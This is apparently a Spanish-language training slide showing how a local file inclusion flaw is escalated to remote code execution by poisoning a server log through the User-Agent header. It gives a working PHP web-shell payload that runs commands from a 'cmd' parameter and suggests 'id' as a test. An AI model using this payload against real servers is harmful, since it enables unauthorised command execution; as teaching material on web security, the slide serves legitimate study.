

# Ejemplos
LFI a RCE Inyección de código
Como explotar este ejemplo

Sabiendo que el User-agent se guarda en el log vamos a inyectar un código en php, porque sabemos que la aplicación es capaz de interpretarlo.

Vamos a capturar el request con un proxy web (BurpSuite)
Inyectamos la siguiente línea en el User-agent
Original
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0

Modificación
User-Agent: Mozilla/5.0 <?php system($_GET['cmd']); ?> Gecko/20100101 Firefox/68.0

3. Ahora en la línea que muestra el GET request vamos a incluir la nueva variable “cmd” y correremos un comando “id”.